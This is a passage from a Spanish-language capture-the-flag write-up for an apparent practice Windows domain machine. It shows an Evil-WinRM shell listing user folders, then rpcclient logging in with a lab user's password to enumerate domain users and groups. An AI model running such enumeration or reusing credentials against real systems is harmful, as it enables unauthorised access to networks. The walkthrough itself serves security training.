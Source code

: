 Pero aquí no está la flag del usuarios, parece que tenemos que covertirnos en otro usuario: 
```bash 
*Evil-WinRM* PS C:\Users\olivia\Documents> dir C:\Users


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/22/2024  11:46 AM                Administrator
d-----        10/30/2024   2:25 PM                emily
d-----         4/21/2025   4:35 PM                michael
d-----         4/21/2025  11:57 AM                olivia
d-r---         10/4/2024  10:08 AM                Public
```

## **Acceso al sistema**

Bien, vamos a usar ahora la herramietna rpclient para conectarnos al servidor smb, primero intentamos usar un Null Session a ver si podemos enumerar cosas del servidor pero parece que no:
```bash 
└─$ rpcclient -U "" 10.10.11.42 -N 
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
``` 

Usamos las credenciales: 
```bash 
└─$ rpcclient -U "olivia%ichliebedich" 10.10.11.42
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
``` 
